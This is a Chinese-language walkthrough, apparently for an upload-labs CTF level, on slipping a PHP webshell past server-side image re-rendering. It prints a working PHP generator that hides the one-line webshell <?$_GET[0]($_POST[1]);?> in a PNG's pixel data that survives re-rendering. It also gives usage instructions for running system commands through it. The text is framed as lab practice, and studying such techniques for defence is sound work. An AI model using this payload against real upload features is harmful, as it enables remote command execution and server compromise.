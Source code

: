 :::tip
二次渲染
将一个正常显示的图片，上传到服务器。寻找图片被渲染后与原始图片部分对比仍然相同的数据块部分，将Webshell代码插在该部分，然后上传。具体实现需要自己编写Python程序，人工尝试基本是不可能构造出能绕过渲染函数的图片webshell的。
大佬链接：https://www.fujieace.com/penetration-test/upload-labs-pass-16.html
:::

这题只能上传正常的png图片，在图片里做手脚添加PHP代码会二次渲染

:::tip
网站会对图片进行二次处理（格式、尺寸，保存，删除 要求等），服务器会把里面的内容进行替换更新，处理完成后，根据我们原有的图片生成一个新的图片（标准化）并放到网站对应的标签进行显示。
:::

这里借用二次渲染绕过脚本
```php
<?php
$p = array(0xa3, 0x9f, 0x67, 0xf7, 0x0e, 0x93, 0x1b, 0x23,
           0xbe, 0x2c, 0x8a, 0xd0, 0x80, 0xf9, 0xe1, 0xae,
           0x22, 0xf6, 0xd9, 0x43, 0x5d, 0xfb, 0xae, 0xcc,
           0x5a, 0x01, 0xdc, 0x5a, 0x01, 0xdc, 0xa3, 0x9f,
           0x67, 0xa5, 0xbe, 0x5f, 0x76, 0x74, 0x5a, 0x4c,
           0xa1, 0x3f, 0x7a, 0xbf, 0x30, 0x6b, 0x88, 0x2d,
           0x60, 0x65, 0x7d, 0x52, 0x9d, 0xad, 0x88, 0xa1,
           0x66, 0x44, 0x50, 0x33);
 
 
 
$img = imagecreatetruecolor(32, 32);
 
for ($y = 0; $y < sizeof($p); $y += 3) {
   $r = $p[$y];
   $g = $p[$y+1];
   $b = $p[$y+2];
   $color = imagecolorallocate($img, $r, $g, $b);
   imagesetpixel($img, round($y / 3), 0, $color);
}
imagepng($img,'1.png');  //要修改的图片的路径
 
/* 木马内容
<?$_GET[0]($_POST[1]);?>
 */
//imagepng($img,'1.png');  要修改的图片的路径,1.png是使用的文件，可以不存在
//会在目录下自动创建一个1.png图片
//图片脚本内容：$_GET[0]($_POST[1]);
//使用方法：例子：查看图片，get传入0=system；post传入tac flag.php
?>
```

二次渲染绕过图片马

![cola](https://the0n3.top/medias/show-upload/cola.png)

测试成功

